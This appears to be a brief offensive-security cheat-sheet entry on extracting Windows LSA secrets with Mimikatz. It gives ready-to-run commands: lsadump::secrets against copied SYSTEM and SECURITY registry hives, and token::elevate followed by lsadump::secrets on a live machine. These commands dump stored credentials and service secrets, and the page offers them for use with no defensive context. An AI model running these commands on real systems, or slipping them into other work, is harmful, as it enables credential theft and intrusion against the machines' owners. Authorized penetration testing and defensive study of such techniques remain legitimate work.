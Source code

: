 # LSA secrets extraction

## Mimikatz

Extract LSA secrets from registry hives:

```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

Or on a live system locally:

```csharp
token::elevate
lsadump::secrets
```

